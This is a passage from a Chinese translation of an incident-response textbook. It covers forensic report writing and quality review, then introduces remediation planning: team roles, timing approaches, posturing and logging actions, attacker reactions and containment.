- **时间轴** 时间轴是一个可选的部分，它在某些报告中非常有用。时间轴部分通常由一个按时间顺序列出主要事件的表格组成。日期和时间以UTC方式列出，以及事件的摘要和事件知识的来源。此时间轴通常包含在报告的开头部分，因此相对较简短-通常不超过一页。压缩多个事件的一种简单方法是进行总结。例如，如果攻击者创建了10个RAR文件，按照单独行的方式列出每个创建将浪费空间。相反，通过总结说攻击者创建了10个RAR文件并提供时间跨度是一种更好的方式。然而，如果在该时间段内发生了其他事件，最好将RAR文件的创建拆分，以便能够正确列出这些其他事件。
- **分析详细信息** 报告的分析详细信息部分是记录“血淋淋的细节”的地方。该部分包含在分析过程中发现的所有低级事实和细节，这些事实和细节构建起并支持主要发现。我们呈现发现的三种常见格式是按时间顺序、按类别和按重要性。按时间顺序列出所有发现。按类别分类通常是按证据来源-例如文件系统、事件日志或其他来源-进行的。按重要性呈现意味着首先列出对回答调查问题影响最大的发现。
- **附录** 分析报告中的附录与事件报告中的用途相同。

### **质量保证**

无论我们对自己所写的报告有多么自信，质量保证（QA）审查似乎总能找出问题。建立一个QA过程将有助于防止您的组织提交次品报告。一个全面的QA过程包括对样式、格式、内容和技术准确性的审查。在大多数组织中，会指定一个或多个人作为报告审查人员。审查人员不能是所审查报告的作者。这个过程有时被称为“同行评审”，在经过认可的法庭科学实验室中通常是必需的。

- 注意

  质量保证结合良好的程序，应该能确保一份报告的内容不会出现在另一份报告中。这听起来可能有点显而易见；然而，帮助我们的技术也可能伤害我们。大多数文字处理软件（如Microsoft Word）会在文件中嵌入元数据和先前修订版本的实际文本。即使您看不到任何敏感信息，它可能实际上存在。如果被发现，这些信息可能给您的组织带来严重问题。您应该始终从已知的干净模板开始撰写报告。您还应考虑将文档转换为不同的交付格式。例如，如果您的报告是在Microsoft Word中，可以将其转换为Adobe PDF。QA过程应包括检查文件元数据，例如总编辑时间。最后，始终研究您正在使用的文档格式，确定它对这个问题的易感程度以及您可以采取的措施。这些措施将有助于防止令人尴尬且可能代价高昂的错误。

### **那又怎样？**

我们都听过这句话：“重要的不是你说了什么，而是你怎么说。”报告撰写可以说是事件响应中最具挑战性的方面。我们见过太多的响应者使用截图来“解释”攻击者的行动。虽然这不是你的错，但大多数教育系统未能教导人们如何正确有效地写作。然而，缺乏有效的写作技巧可能会使你在战斗开始之前就失去了胜利的机会。为了帮助赢得这场战斗，我们建议您通过阅读Norman Fenton的《Improving Your Technical Writing Skills》和William Strunk Jr.与E. B. White的《The Elements of Style》不断发展和提升自己的技能。寻求帮助的来源能够帮助您以简单的方式有效地传达复杂的思想。我们还发现以下这些引语对我们最有帮助：

- “如果没有记录，那就没有发生过。”
- “想象一下，20年后，有人问您是如何得出结论的。您现在会写下什么以便以后回答他们？”
- “想象一下，您正在向您的祖母解释什么是互联网。请有耐心和同情心地帮助她学习。”

### **问题**

1. 您分析了一张硬盘的图像以查找已删除的RAR文件。您完成分析后未发现任何已删除的RAR文件。您的老板告诉您不要写报告。您会怎么做，为什么？
2. 解释为什么积极语态是技术报告中首选的写作风格。提供至少三个明显的例子，说明积极语态与被动语态的区别。
3. 设计两个在本章没有讨论过的元数据表。解释您选择的布局和包含的字段的原因。
4. 在分析过程中，您发现一个文件中似乎有信用卡号码。您在一个图中提供了文件的摘录。在图中展示数据时，是否有任何特殊考虑事项？

# 第5部分 **修复**

## 第17章 **修复介绍**

- *有效的事件响应需要两个方面的方法：事件调查和事件修复。然而，到目前为止，本书的大部分内容都集中在与调查相关的主题上，如事件准备、数据收集和分析。然而，修复与调查同样重要，并且应该得到公正的关注。在本版书中，我们专门为修复主题分配了两个完整的章节。本章将是“课堂”，我们将讨论修复的基本原理，而下一章将是“实践”，我们将把这些基本原理应用到第1章中提出的场景中。

本章我们的目标是让您熟悉如何创建一个全面的修复计划。创建一个全面的计划需要大量的工作，并将涵盖最具挑战性事件的所有方面。并不是每个事件都需要一个全面的计划，但是如果您了解如何创建一个全面的计划，您应该能够处理任何情况。在本章的开头，我们介绍了基本的修复概念。然后我们详细讨论了每个概念，并通过将这些概念与一个样本场景相连接来结束本章。

### **基本概念**

处理大规模事件是一个复杂的过程。为了帮助解释所有相关方面，我们将在本节介绍一些基本概念。这些概念包括高级处理步骤、处理行动类型和处理中的常见关键因素。处理计划通常分为两个部分——第一部分集中在处理当前事件（定位、遏制和清除行动），第二部分集中在提高组织安全姿态（战略行动）。与任何复杂的努力一样，越多的规划投入到处理工作中，处理过程就会更加顺利。 起草的处理计划反映了处理团队认为组织在清除事件之前可以实际完成的所有行动。我们发现，在调查过程中，该计划经常被修订多次，因为最初被认为容易实施的行动项目后来被发现比预期更加困难。我们通常会将这些项目转移到战略建议列表中，除非它们对于成功是绝对必要的。

> note:
> 当初始修复计划中的某一项被发现在根除事件中需要付出过多努力时，您应该将该项进行分解，选取对根除事件影响最大的部分，并将其余部分移至战略计划中。一个例子是全球实施双因素身份验证的建议。在根除事件之前，许多客户无法在企业范围内支持此项措施，因此可以选择一部分用户。在战术性的过程变更中，可以选择公司高管和所有系统管理员作为两个用户群组。然后，对其他所有用户的推广可以放入长期计划中。这有助于遏制攻击者的行动，如果他们回来的话。

尽管诱人，但在事件期间进行大范围的改进以提高安全性是不可取的 - 等到事件结束后再进行。开发初始的补救计划的一种简单方法是让团队根据补救计划矩阵的每个领域进行头脑风暴，我们将在本章后面介绍。

补救计划所需的详细程度因事件而异。一些组织选择创建非常详细的计划，包括Microsoft Project工作流、Excel电子表格和其他文档。其他组织则依赖于在最高层次上的最低程度的详细信息，同时相信他们的人员能够处理细节。补救计划的正确详细程度是补救负责人需要的程度，以确保计划是全面的，并且最重要的是可执行的。我们不会在本章中涵盖文档化补救计划各个部分的具体方法。下一章将包含一个补救电子表格和计划的示例。

图17-1将补救过程描绘为一个流程图。本章对流程图的每一个步骤都有更详细的解释。如果您发现补救过程难以理解，请继续参考流程图。由于补救过程复杂，您需要阅读整个章节以完全理解该过程以及如何正确实施。

补救过程包括以下八个高级步骤：

1. *组建补救团队*。只有在宣布事件并分配事件所有权时才组建补救团队。我们在第2章中介绍了调查团队的组建。补救团队的结构类似，包括法律、IT（基础架构和帮助台）、安全和业务线管理人员的代表。
2. *确定补救行动的时机*。业务领导者与法律、补救和调查团队协调，必须决定哪些行动立即开始，哪些要等到调查结束。在我们的经验中，这取决于事件、调查速度和可能受到威胁的信息的类型，因此差异很大。
3. *制定和实施补救姿态行动*。在事件持续期间实施姿态行动，通常包括增强系统和网络监控、减轻重要漏洞以及为企业范围的变更（如重置密码或部署双因素身份验证）准备支持团队。大多数姿态行动对攻击者来说几乎与正常维护无异。
4. *制定和实施事件遏制行动*。遏制行动旨在在调查期间阻止攻击者访问特定环境或敏感数据。遏制行动通常是在很短的时间内实施的短期干扰性解决方案。
5. *制定根除行动计划*。根除计划的目标是消除攻击者对环境的访问，并减轻攻击者用于获取和保持访问权限的漏洞。这些行动要有明确的文档，并且团队应该花时间进行排练，而不会干扰调查。补救过程的这一步骤通常在调查结束时或接近调查结束时执行，一旦了解了攻击者的工具、战术和程序。


1. *确定根除事件的时间并执行根除计划。* 在调查过程中，会达到一种“稳态”。在这一点上， 虽然可能会发现其他系统妥协，但经过分析后，不会发现新的工具或技术。重要的是要理解， 为了取得成功，根除事件必须经过精心计划并在正确的时间执行。当调查团队对正在使用的工具、 技术和流程有很好的掌握时，执行根除步骤。该步骤还包括根除活动的后期监测和验证。
2. *制定战略建议。* 在调查和纠正过程中，您应该记录需要改进的领域。这些笔记是战略建议的基础， 将有助于提高您环境的安全性。战略建议通常包括在调查之前、期间无法实施的纠正措施。 战略建议往往与充分记录的信息安全最佳实践直接对齐。此外，战略建议通常需要跨职能工作组 来实施。这些活动可能会干扰业务，并且通常需要投入大量费用。战略行动通常会在根除事件之后的 几个月到几年内发生。
3. *记录调查中学到的经验教训。* 作为调查结果生成的文档应存储在一个中心位置。 这个位置应该只对事件响应人员开放，鉴于文档的潜在敏感性。这些信息将对帮助您的组织逐渐改进 非常宝贵。预期的文档示例包括编写的报告和有关环境的笔记。

纠正工作应当简明有效。如果您的纠正团队试图在战术情况下实施重大变革，那么存在着真正的风险， 即结果会匆忙和不完整。了解您的团队（以及组织）能够迅速采取行动的能力，并将其他任务推入战略建议文档。 实施少量有效的变化通常比试图实施大量与事件不太相关的行动更为有效。

没有一种单一的策略可以成功地进行纠正工作-正确的纠正策略取决于每个事件的特定因素。根据我们的经验， 对纠正工作至关重要的七个最常见因素如下：

- **事件严重程度** 事件的严重程度将决定所采取的补救措施。每个组织都需要自行决定事件的严重程度。例如，一家遭受实时损失的银行比遭受未知攻击者入侵的国防承包商更有可能立即采取控制和清除行动。事件的类型也可能改变严重程度。修复仅包含公共信息的外部网页服务器被入侵的事件比攻击者获取域管理员凭据的事件严重程度要低得多。成熟的事件响应流程将记录不同的事件严重程度级别，以便事件响应人员能够快速确定适当的严重程度和方法。
- **补救时机** 利益相关者应在计划过程开始时就对补救行动的暂定时机达成一致。一些努力旨在立即剥夺攻击者对敏感系统或数据的访问权限，而其他努力则旨在为调查团队提供足够的时间，以全面清除攻击者并同时加强防御能力。尽管在充分了解事件之前制定时间表是不可能的（甚至是不可取的），但制定积极的时间表以确保及时进行事件响应非常重要。
- **补救团队** 事件补救团队有三个主要问题，即团队规模、技能水平和管理支持。团队规模可能会影响团队协调和同时行动的能力。团队的技能水平将决定补救工作的彻底程度。经验丰富的补救团队更容易采取定制化的方法，而技能较低的团队可能希望将补救工作限制在自己的舒适区域内。管理支持将确保补救团队获得授权和财务资源，以正确实施补救措施以保护环境安全。
- **技术** 现有的技术类型将影响您实施补救行动的方式。这包括安全技术和企业管理技术。例如，您的组织可能有软件可用于在整个企业范围内更改本地管理员帐户密码。没有这种软件的组织可能需要开发脚本来更改每个系统上的本地管理员帐户密码。

::: ▶注意：

在进行进行中的事件中实施新技术通常会引起更多问题。在新技术上花费的每一个资源（人力、时间和资金）都是没有用于调查或补救的资源。当然，也有例外情况，比如拥有非常熟练和成熟的IT和安全团队的组织，或者新的安全技术对成功补救事件至关重要。

:::

- **预算** 拥有庞大的IT和安全预算的组织可以购买和实施最佳技术，而预算有限的组织可能不得不实施较便宜的补偿控制措施。此外，补救工作必须在事件和所保护数据的背景下合理。保护资产所花费的资金超过资产价值通常不符合商业逻辑。
- **管理支持** 大多数综合性的补救工作都需要组织实施影响日常运营的变更。例如，在所有系统上实施唯一的本地管理员或根帐户密码可能需要系统管理员改变与系统的互动方式。确保获得管理支持将有助于确保即使是最痛苦的补救行动也得以实施并得到全面支持。
- **公众关注** 由于监管要求，您的法律或公关团队可能需要披露有关事件的信息。在某些情况下，信息可能会因信息泄漏或第三方发现而公开。在其他情况下，攻击者可能试图通过威胁公开妥协或窃取的信息来勒索受害公司。在任何这些情况下，您的组织都应仔细审查其打算发布的关于事件的任何声明。一些组织急于发布信息，以显示他们正在“采取行动”。然而，随着调查团队发现更多关于事件的信息，您可能不得不修改先前发布的信息。更正公开披露的信息可能令人尴尬，可能迫使组织对公众的反弹进行损害控制。包含重大公众评论或审查的事件可能导致补救工作受到公众观感而非事实的驱动。

一个要求组织披露事件的监管要求的例子是《健康保险便携与责任法案》（HIPAA）。根据HIPAA，任何构成受保护健康信息（PHI）或个人可识别信息（PII）的数据丢失都会触发各种通知。对于必须披露丢失了PHI或PII的公司来说，包括采取或正在实施的控制步骤通常是有利的。这让公众知道正在采取行动来阻止数据丢失并进一步保护数据。这也迫使补救团队集中精力进行立即控制。可能导致公众审查的第三方参与的一个例子是记者在未事先通知组织的情况下爆料组织被入侵的故事。

- 注意：

  美国联邦政府、各州政府和外国政府在个人身份信息（PII）数据丢失的通知要求方面差异很大。如果您卷入了包含个人健康信息（PHI）或PII数据丢失的事件，您应确保从事件开始时就让法律顾问和公关部门参与其中。

现在我们已经介绍了八个高级修复步骤，我们几乎准备好深入了解细节。然而，在我们深入讨论修复步骤之前，应进行几项预检工作，然后我们将深入探讨每个修复步骤的细节。

### **修复预检**

我们建议在组建修复团队之前进行两项预检。第一项是确保您的组织已经致力于对事件做出正式响应。响应将消耗大量工时，可能会使关键人员和团队在处理事件之前将其它项目放在一边。这听起来可能不必要，但重要的是高级管理层传达决定宣布事件响应，并且所有团队成员只有在收到该通知后才开始响应程序。 第二项预检是验证是否已分配事件负责人。事件负责人为组织内的关键利益相关者、事件调查团队和事件修复团队提供领导。所有事件团队必须与事件负责人协调和沟通，以确保协调一致的事件响应。如果您不知道已分配的负责人，或者更糟糕的是没有分配负责人，那么这将变得困难。 现在，您的预检工作完成了，是时候详细了解第一步——组建修复团队了。

### **组建修复团队**

我们讨论了与组建修复团队相关的三个方面。第一个是了解何时应该创建修复团队，第二个是了解修复负责人的角色，第三个是了解谁应该成为修复团队的一部分。

#### **何时创建补救团队**

根据我们的经验，应在调查启动时立即建立补救团队。这样可以让补救团队立即开始制定补救计划。一旦事件负责人确定了补救行动的时机，团队应该能够开始制定姿态和遏制行动，并规划根除事件。

同时进行事件调查和补救团队可以减少从发现事件到根除事件的时间。从发现事件到根除的时间被称为“补救时间”。信息安全组织的一个目标是争取低平均补救时间（MTTR）。一些组织甚至针对可接受的MTTR特定类型的事件制定了指标。例如，如果在1月25日发现了恶意软件，调查确定系统在1月15日被入侵，系统在1月26日重建，那么平均补救时间为24小时（事件发现在1月25日，根除在1月26日，共计24小时）。即使入侵未被发现了10天，拥有低平均补救时间也很重要。鉴于许多组织不能自行发现入侵，而必须由第三方通知，确保低平均补救时间与尽快发现事件同样重要。

接下来，让我们讨论指派补救负责人。

#### **指派补救负责人**

组建补救团队最重要的方面是指派补救负责人。补救负责人对整个补救工作负责，并与技术和非技术人员进行交互。除了与事件响应传统相关的技术领域外，补救负责人还需要了解数据流、业务运营、公司战略、公共关系、人力资源和法律等非技术领域。由于团队将由技术和非技术人员组成，一位资深技术人员通常是最好的补救负责人。在某些情况下，如果他们被一个高效的团队包围，一位优秀的项目经理可能能够有效地领导补救工作；然而，一位经验丰富的高级技术人员通常会更有效。这位资深技术人员应该是具有扎实技术经验和处理业务其他方面经验的人。这种经验将使他们能够更好地指导团队，并更好地向企业提供有关实施某些行动的后果的建议。受害组织还必须确保补救负责人得到全面的管理支持，以便做出决策并相应行动。

补救工作的许多方面很难实施，并对业务造成一定程度的干扰。一个强大的补救负责人必须激励团队，并推动完成困难的补救措施。这需要一个精力充沛的个人，能够有效地解决分歧。一个困难的补救措施的例子是强制在整个环境中协调更改登录账户密码。通常更改标准用户账户密码很容易；但本地管理员账户、服务账户和内置于应用程序和脚本中的凭据往往很难更改。此外，许多补救工作要求在短时间内（如24到48小时）更改所有这些账户密码。这种行动通常不会被必须实施它的员工所接受，他们会抵制并质疑为什么必须完成这样一项艰巨的任务。不幸的是，一个遗漏的账户可能使补救过程失效。

有时一个人负责调查和补救工作，特别是在较简单的事件中。然而，如果事件在一个大环境中复杂和/或普遍存在，事件、调查和补救负责人应该是不同的人。这将确保各自的负责人能够适当地专注于自己的责任领域。

在分配补救工作的所有权时，您应该寻找个人的五个关键品质。尽管每个事件和补救工作是不同的，但这些品质是至关重要的。接下来列出了这五个品质，随后对每个品质进行了更详细的讨论：

- 对IT和安全的深入了解
- 关注执行
- 理解内部政治
- 在倡议方面获得支持的经验
- 能够与技术和非技术人员沟通

了解信息技术和安全对于修复所有者至关重要，因为他们必须直接与负责开发修复措施的技术人员合作，并确定这些措施的可行性。他们还必须能够充分理解事件和调查，以便能够为团队提供适当的技术指导。我们经历过许多情况，如果修复所有者不足以理解信息技术，以推翻某些技术性反对意见，那么懒散和自满可能会占上风。了解信息技术和安全可能是一个优秀的修复所有者最容易被忽视的素质——许多公司认为优秀的项目经理由于他们在效率和规划方面的背景而成为了优秀的修复负责人（虽然这两者都很重要，但技术理解更重要）。

修复所有者必须执行。有些人称之为“操作聚焦”的品质。无论你如何称呼它，修复所有者需要了解如何制定、评估和产生结果。他们需要擅长分配任务，强化问责，跟进指派的任务，并确保任务的完成。制定全面的修复计划如果没有得到适当和及时的实施就毫无意义。根据有限信息做出快速决策的能力，虽然并不总是必要的，但却很重要。大多数修复工作都会遇到意外的复杂情况、预算超支和超过时间限制的问题。例如，如果修复工作不小心警示攻击者你们已经意识到他们的存在，修复所有者需要能够迅速采取行动来反制攻击者采取的任何进攻行动。修复所有者必须根据不断变化的情况做出快速决策，并展现出自信。

了解内部政治对于修复所有者来说至关重要，以确保正确的修复措施在对业务影响最小的情况下得以实施。了解内部政治可以决定一项艰难的修复措施是否得到批准。例如，如果修复团队负责人知道首席信息官通常不愿意实施全面变革，那么该人员应该花时间与首席信息官交流，并讨论在调查期间可能需要的流程。如果在组织承受事故响应压力之前设定了期望，那么被视为修复所必需的行动就会更容易实施。

修复所有者还必须能够为修复计划争取支持。很多困难的决策将被做出，比如导致业务系统停机，这将给组织带来损失。修复所有者需要能够获得关键利益相关者（通常是高管、业务负责人和高级工程师）的支持，以确保有效的修复。在这种情况下，成功地向非技术人员传达复杂的技术概念是一项重要的技能。没有高管希望听到实施安全措施将如何保护业务，而这些措施会妨碍业务运作。相反，他们希望了解这些安全措施如何增强业务的安全性并保护其利益。即使是需要业务以不同的方式运作的困难的修复行动，在向高级管理层适当传达后，也可能获得支持并得以实施。

修复所有者必须能够与技术和非技术人员进行沟通。他需要能够与技术人员合作，理解建议并确保这些建议既符合修复的最佳利益，也符合组织的安全态势。修复所有者还需要能够以高管们理解的方式与高管进行智能对话，以正确解释各种修复行动的风险和收益。例如，修复所有者需要能够准确传达关闭所有系统的互联网访问作为全面清除事件的第一步所带来的业务风险。高管不能承受误解像断开与互联网的连接这样的重大举措，这显然会对业务产生一两天的影响。

#### **整治团队成员**

在第2章中，我们花时间描述了调查、整治和附属团队的组成。作为复习，整治团队至少应包括以下类型的人员：来自调查团队的成员；系统、网络和应用程序代表；以及其他各种专家（如适用）。整治团队需要具备实施必要变更的专业知识和权威。第2章还讨论了对整治至关重要但更加任务导向的附属团队成员。这些附属团队成员的一些例子包括来自内部和外部法律顾问、合规官员、业务线管理人员、人力资源、公关和高级管理人员的代表。

以下是这些团队成员如此重要的一些原因：

- 调查团队成员将能够提供有关攻击者活动的宝贵见解以及可以采取的缓解措施。他们还将知道如果采取延迟整治方法，哪些即时整治行动会引起攻击者的警觉。

- 系统、网络和应用程序所有者将最好地了解推荐行动的可行性及其对组织的影响。他们对系统和应用程序的理解将使他们能够在初始建议不可行时提供替代建议。

- 各种专家（SME）在涉及非标准系统（如机密系统或工业控制系统（ICS））的整治中至关重要。

- 附属功能的代表将能够为整治团队预计遇到的非技术问题提供宝贵的见解和支持。

- 注意：

  许多事件响应团队在事件响应的开始阶段就包括法律代表（内部或外部法律顾问，或两者都有）。这有助于确保所有各方从法律角度获得适当的建议。在某些情况下，特别是当外部公司参与事件响应时，有外部法律顾问的参与有助于在诉讼案件中保护特权。

整治团队必须首先完成的任务之一是选择整治方法。在下一节中，我们将讨论不同类型的整治方法以及与每种方法相关的考虑因素。

### **确定整治的时机**

整治行动有三种方法：即时、延迟和综合。 在开始进行任何整治工作之前，事件所有者与调查和整治团队的负责人应该决定整治方法。 正确的方法将取决于我们在本章前面讨论过的对整治工作至关重要的七个最常见的事件因素。有时候，在事件响应初期确定正确的整治方法很困难。 根据我们的经验，“延迟行动”整治方法应该作为默认方法，直到调查的证据证明其他方法是合理的。下面列出了三种整治方法的详细信息：

- **即时行动** 该方法用于阻止事件继续发生（事件遏制）。当立即停止攻击者的活动比继续调查更重要时，应该采用这种整治方法。即时行动整治方法通常会提醒活跃的攻击者组织已经意识到他们的恶意活动。这是适用于许多存在活跃攻击者的事件的合适整治方法。

  当组织正在实时损失资金，例如通过自动清算系统（ACH）或信用卡/借记卡欺诈；当恶意内部人员正在将数据复制到外部USB驱动器并准备将信息出售给竞争对手；以及当事件规模较小，例如单个受到入侵的系统时，这种整治方法可能是合适的。如果攻击者已经入侵了数百台系统并植入了多个后门家族，这种整治方法可能不合适 - 在这种情况下，即时行动只会导致攻击者更改他们的工具和技术，这将导致调查团队重新确定入侵的范围。

- **延迟行动** 该方法允许调查在采取任何直接行动之前结束。在整个调查过程中，要小心不要提醒攻击者。当调查至少与整治同等重要时，应该采用这种整治方法。这是涉及知识产权（IP）盗窃或从监视攻击者活动中获得的情报价值超过遏制活动的需要的事件中最常见的整治方法。

  以下是更适合采用这种整治方法的一些例子：企业间谍活动以及攻击者入侵了数百台系统，需要进行调查以完全确定入侵的范围。

  在某些情况下，执法机构可能要求您延迟整治，以便他们的调查可以继续进行，以便他们可以了解更多关于攻击者的信息，或者为逮捕提供时间。这种情况可能对你有利，因为你可能能够推迟公开通知，如果有必要的话。

- **综合行动** 该方法仅对事件的特定方面实施遏制，而让事件的其他部分继续进行。当事件遏制比调查更重要时，通常会采用这种整治方法；然而，仍然需要进行全面的调查和整治工作。这种整治方法在能够快速整治部分环境的大型环境中最为常见。例如，一个组织可能选择尽快整治受到入侵的业务单元，以立即保护组织的其余部分，但选择在较长的时间内整治其余的业务单元。这种整治方法在涉及到几乎实时的资金或关键业务数据窃取的事件中也很常见。例如，如果攻击者获得了用于创建和授权ACH交易的凭据，受害组织需要立即删除攻击者对系统的访问权限。然而，组织还需要全面确定入侵的范围并实施全面的整治工作，以确保攻击者不能继续访问环境。在这种情况下，立即阻止攻击者访问某些系统比删除他们对环境的访问更重要，尽管仍然需要移除攻击者对环境的访问权限。

  团队组建完毕并确定整治方法后，团队需要开始行动。在下一节中，我们将讨论团队的第一个任务 - 制定与所选整治方法一致的姿态和遏制计划。

### **DEVELOP AND IMPLEMENT REMEDIATION

POSTURING ACTIONS**

首先，先讨论姿势动作。姿势动作是在持续的事件中采取的，旨在在对攻击者影响较小的情况下实施。这些动作旨在通过实施额外的日志记录和监控来增强调查团队的可见性。姿势动作对事件响应至关重要，因为它们通过增加额外的证据来源来增强调查，并减少后期修复工作的时间。以下是一些典型姿势动作的高级示例：

- 增强日志记录，包括以下日志：
  - 系统特定日志
  - 应用程序特定日志
  - 网络日志
  - 中央认证日志
- 集中化日志文件和管理（实施安全信息和事件管理[SIEM]）
- 增强告警功能
- 补丁第三方应用程序
- 为访问关键环境实施多因素身份验证
- 减少存储关键数据的位置
- 增强本地认证的安全性

许多这些操作可以通过改进终端保留的数据类型来解决。启用命令历史记录和进程审计，以及确保所有身份验证都被正确记录，是在Linux系统上实施的一些常见且易于操作的措施。对于Windows系统，请确保配置了Microsoft Windows审计以记录成功和失败事件。记录的具体审计事件将取决于目标；然而，以下是一些常见的启用事件：

- 审计帐户登录事件

- 审计帐户管理

- 审计登录事件

- 审计对象访问

- 审计权限使用

- 审计进程跟踪

- 审计系统事件

- caution:

  启用Microsoft Windows的“成功”事件用于审计策略“审计对象访问”和“审计进程跟踪”可能会快速填满本地安全事件日志文件。如果发生这种情况，您的事件日志将仅包含一个非常短的时间段的条目。这严重降低了日志的有效性。您应密切监视日志策略更改的影响。可能需要增加日志文件的最大大小或将事件发送到集中日志系统。

> note:
> 一个常见的安全误解是仅记录被拒绝（失败）的活动将有助于捕捉恶意活动。我们看到许多组织专注于寻找失败的活动，认为那里将记录恶意活动（这种思维是如果是坏的，它将被拒绝，因此将被归类为失败的活动）。尽管在某些情况下确实如此，但如果您正在调查主动攻击者，您需要查看攻击者被允许执行的操作（因此是主动攻击者）。为了全面了解事件，您需要记录和监控允许的（成功）活动，而不仅仅是失败活动。例如，如果攻击者能够获得合法凭据，所有恶意活动将显示为“合法”用户所“允许”的活动。仅监视被拒绝或失败的活动将错过这一类活动。

- System-specific logs
- Application-specific logs
- Networking logs
- Central authentication logs

另一个常见的姿态目标是在不提醒攻击者的情况下增加应用程序和系统的安全性。在实施这些更改之前，您应该向调查小组介绍您的计划 - 他们将对攻击者是否会注意到这些更改有意见。以下是一些姿态行动的示例：

- 在Windows环境中移除LANMAN哈希。
- 加强密码安全要求。
- 补丁常被攻击的第三方应用程序。
- 对攻击者尚未入侵或发现的关键环境实施多因素身份验证。
- 修复攻击者用于获得初始访问环境的应用程序漏洞。

在某些情况下，从环境中移除受损系统是可以接受的；系统被重建、重新获取或离线，而用户则一直在度假。攻击者预计会在大型环境中遇到一定程度的变动。然而，如果30个受感染系统中的25个突然下线并保持下线几天，攻击者很可能会认为他们已被发现。如果发生这种情况，攻击者可能会更改他们的工具或技术，调查团队将难以再次确定攻击的范围。

另一个可能有利于调查团队的姿态行动是停止所有使用已知受损凭据的合法活动，为那些账户被攻击的用户发放新的用户账户，并对已知受损用户账户实施监控和警报。这种方法确保，截止到特定日期，所有来自已知受损账户的活动都应被视为恶意行为。这增加了调查团队判断恶意用户账户活动与合法活动的能力。当涉及系统管理员账户时，这可能尤其难以实现。

#### **提醒攻击者的影响**

采取会提醒攻击者他们已被发现的行动通常被认为对调查不利。一旦攻击者意识到自己被发现，他们很可能会做出反应。在某些情况下，攻击者的反应可能是无害的 - 例如，当攻击者对自己在环境中保持存在的能力感到自信，或者当攻击者已完成任务并没有理由继续留在环境中时。然而，以下是我们经常见到的一些更常见的反应：

- **工具、战术和程序的变化** 这会导致事件响应人员将注意力集中在对不断变化的攻击者活动的反应上，而不是调查过去的活动。这还给调查团队带来了额外的工作 - 他们必须追踪所有更改的工具、战术和程序(TTPs)，同时继续调查过去的活动，以确保没有遗漏任何内容。其他时候，调查团队可能会完全失去对攻击者活动的可见性。在某些情况下，TTPs的变化可能如此严重，以至于您的组织被迫立即进行修复活动，这会导致事件响应团队将注意力集中在消除上，而不是调查。这可能使攻击者能够安装新的机制来继续维持对环境的访问，而事件响应团队没有注意到，从而危及整个努力。

- **变得休眠** 如果攻击者休眠，可能会导致事件响应人员错过恶意活动的证据，并允许攻击者在清除事件期间保持隐藏，然后在之后重新活动。攻击者常用的一些技术是植入恶意软件，每隔几个月与其命令和控制（C2）服务器通信一次，删除所有恶意软件，只通过远程访问方式访问环境（如企业对等连接或VPN），在非军事区（DMZ）中实施不使用的Webshell，直到攻击者认为事件响应团队已经完成，以及将所有恶意域名停放在看似无害的IP地址上（例如由Google拥有的IP地址）。

- 注意：

  有些攻击者喜欢将他们的域名解析为诸如本地主机（127.0.0.1）、广播地址（255.255.255.255）、多播地址（224.0.0.0–239.255.255.255）或E类（IANA保留）IP地址（240.0.0.0–254.255.255.255）。然而，这些活动中的一些很容易被任何入侵检测系统/入侵防御系统（IDS/IPS）检测到，并不被认为是隐蔽的。更有经验的攻击者会将他们的域名解析为不显眼的IP地址。

- **变得具有破坏性** 尽管罕见，但有些攻击者会采取进攻性的行为，以改变对事件响应的关注重点，将其从对过去活动的响应转变为花费时间修复损害。一些破坏性行为的例子包括从系统中删除文件、篡改网页和崩溃系统。在我们处理的一个案例中，一位系统管理员发现有一个攻击者远程连接到服务器并进行恶意活动。系统管理员将攻击者与服务器断开连接。攻击者最终通过断开系统管理员与服务器的远程桌面连接来作出回应。然后，攻击者禁用了系统管理员的用户账户并完成了他们的恶意活动。

- **试图以被入侵系统压倒组织** 在我们处理的一个事件中，攻击者每天晚上使用脚本在环境中的每个40个域控制器上植入多个后门程序。这导致调查团队将注意力集中在新的感染上，而不是其他任何事情上，并且组织每晚进行修复工作。这种工作量是无法持续的，最终组织重建了所有服务器，并在所有域控制器和所有关键服务器（例如，电子邮件服务器、Web服务器、文件共享服务器和SharePoint服务器）上实施了严格的应用程序白名单阻止模式。

**制定和实施事故的遏制行动**

现在让我们讨论遏制行动。遏制行动可以防止攻击者执行组织不能继续容忍的特定行动。遏制行动通常是极端措施，并不打算长期实施。实施遏制计划通常并不能从环境中完全移除攻击者的访问权限；相反，它只是阻止攻击者执行不能容忍继续的活动。例如，如果攻击者正在从文件服务器中窃取大量个人身份信息（PII）数据，立即停止这种活动并阻止进一步窃取PII数据比在采取任何行动之前完全确定受损范围更为明智。在这种情况下，一个示例性的遏制计划可能是将PII数据库下线，直到事故得到解决，或者阻止任何系统与PII数据库服务器通信，除了一个单独的跳板主机。这可能不是一个长期的解决方案，但它将临时遏制事故，直到您能够完全修复为止。

- 注意：

  遏制计划永远不应被视为一次根除事件，因为遏制计划旨在是一种临时且常常激烈的解决方案，以防止被视为过于不可接受的恶意活动继续进行。仍然需要进行全面的调查和纠正措施，以从受损的环境中完全清除攻击者。

为了制定全面的遏制计划，团队需要了解需要保护的数据或资源。这个过程与一个组织起草企业安全计划时进行的大型、企业级讨论非常相似，只是更加专注。在起草行动计划的过程中，调查团队应与IT和安全团队合作，确保将保护数据的每种合理方式都列入讨论。即使调查团队认为他们完全理解攻击者的操作方式，遏制计划也需要尽可能全面，这意味着考虑到所有合理的活动，而不仅仅是已知的活动。许多环境非常庞大和复杂，以至于IT人员根本无法理解环境的每一个方面，而优秀的攻击者将花时间进行侦察，确保他们有多个途径进行恶意活动。大多数攻击者都预计自己在某个时间点会被发现，而更高级的攻击者则确保即使被发现并且他们主要的访问方式被移除，他们仍然有持续访问的能力。

让我们通过一个场景进一步解释遏制策略以及如何正确实施。最近，一家公司发现攻击者入侵了其受限金融环境。攻击者创建了未经授权的大额资金自动清算系统（ACH）转账到海外银行账户。攻击者入侵了该组织内部开发的财务应用程序，该应用程序提供了创建、授权和处理ACH交易的功能。

在这种情况下，纠正团队应立即实施一个遏制计划，目标是防止攻击者继续创建未经授权的ACH转账。可以采用多种方法来阻止攻击者继续处理未经授权的ACH转账。团队受以下因素限制：

- 公司无法容忍业务功能的损失。

- 攻击者仍然可以访问环境，因此遏制计划必须解决攻击者可能发起ACH转账或访问财务应用的其他方法。

  这类妥协往往会公之于众，因此公司需要能够提供确切的日期，即他们解除了攻击者对受限财务环境的访问。通常，这将是全面遏制计划完全实施的日期。在某些情况下，组织将提供此日期，以便让客户再次放心进行业务。

  考虑到这些因素和场景的描述，让我们讨论一种可能的遏制计划。立即想到以下四个行动：

